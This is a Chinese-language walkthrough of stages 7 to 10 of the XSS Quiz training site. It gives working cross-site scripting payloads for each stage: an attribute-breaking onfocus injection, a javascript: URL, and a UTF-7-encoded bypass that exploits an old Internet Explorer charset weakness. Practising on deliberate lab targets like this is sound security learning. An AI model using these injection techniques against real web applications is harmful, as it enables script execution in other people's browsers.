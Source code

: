 # 第七关
>http://xss-quiz.int21h.jp/stage07.php?sid=459abb17ecd98b0930668f93ee5beba7f81cf0e2

```javascript
" onfocus=alert(document.domain);
```

上面第六关还是能注入，不知道后台验证怎么处理的？

# 第八关
>http://xss-quiz.int21h.jp/stage008.php?sid=69802cd8ff91f9b4fd0a84d9c67ff957cdd04cf5

当浏览器载入一个Javascript URL时，它会执行URL中所包含的Javascript代码。

>javascript:alert(document.domain);

# 第九关

>http://xss-quiz.int21h.jp/stage_09.php?sid=8b17627ebee78fbe1bd2b569f8e2fd96c0934aa9

查看源码，发现提交数据时，带有一行数据编码：

```javascript
<INPUT size=50 name=p1>
<INPUT type=hidden value=euc-jp name=charset>
```

可以利用了IE对于UTF-7的漏洞，过滤对于UTF-7的不支持，以及IE对于UTF-7的漏洞！

## UTF-7
>用以将Unicode字符以ASCII编码的字符串来呈现。

```javascript
<INPUT name="charset" type="hidden" value="utf-7" >
```

将

```javascript
" onfocus="alert(document.domain);
```
utf-7编码为：

```javascript
+ACI onfocus+AD0AIg-alert(document.domain)+ADs-
```

这个编码网站挺全的：

**http://toolswebtop.com/text/process/encode**(<a href="http://toolswebtop.com/text/process/encode">点击</a>)

## 第十关

>http://xss-quiz.int21h.jp/stage00010.php?sid=03afa49981651d6e65498615e3ea60525a79d6e3
